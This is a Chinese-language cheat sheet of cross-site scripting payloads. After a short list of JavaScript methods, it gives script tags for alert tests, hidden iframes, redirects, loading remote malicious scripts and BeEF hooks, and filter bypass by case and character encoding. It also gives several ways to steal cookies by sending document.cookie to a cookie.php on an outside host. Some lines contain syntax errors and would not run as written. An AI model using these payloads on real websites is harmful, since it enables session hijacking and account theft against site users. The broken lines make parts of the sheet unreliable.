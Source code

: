 #### 常用javascript方法

```
alert        alert() 方法用于显示带有一条指定消息和一个确认按钮的警告框。

window.location   用于获得当前页面的地址url，并把浏览器重定向到新的页面。

location.href     返回当前显示的文档的完整 URL

onload            一张页面或一幅图像完成加载

onsubmit           确认按钮被点击

onerror            在加载文档或图像时发生错误
```

#### 构造XSS脚本

```
弹窗警告
此脚本实现弹窗框提示，一般作为漏洞测试或者演示使用，类似SQL注入测试中的单引号，一旦脚本能执行，也就意味着后端服务器没有对特殊字符做过滤 <> \ ' ,这样就可以证明，这个页面存在xss漏洞。
<script>alert('xss')</script>
<script>alert(document.cookie)</script>

页面嵌套
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></script>

页面重定向
<script>windows.location="http://www.baidu.com"</script>
<script>location.href="http://www.baidu.com"</script>

弹窗警告并重定向
<script>alert("hello world!");location.href="http:/www.baidu.com"</script>

访问恶意代码
<script src="http://www.xxx.com/xx.js"></script>
可结合 beef 收集用户cookie

巧用图片标签
<img src="x" onerror=alert('xss')>
<img src="javascript:alert('xss')">
<img src="http://BeFF_IP:3000/book.js">

绕开过滤的脚本
大小写 <ScRIpt>alert('xss')</ScRiPT>
字符编码  采用URL、Base64 等编码
javasc&#x72;ipt:alert(123)

收集用户cookie
打开新窗口并且采用本地cookie访问目标页，
<script>window.open("http://www.baidu.com/cookie.php?cookie="+document.cookie")</script>
<script>document.location="http://www.baidu.com"/cookie.php?cookie="+document.cookie")</script>
<img src="http://www.baidu.com"/cookie.php?cookie="+document.cookie></img>
<iframe src="http://www.baidu.com"/cookie.php?cookie="+document.cookie></iframe>
<script>new Image().src="http://www.baidu.com"/cookie.php?cookie="+document.cookie;img.width=0;img.height=0;</script>

```
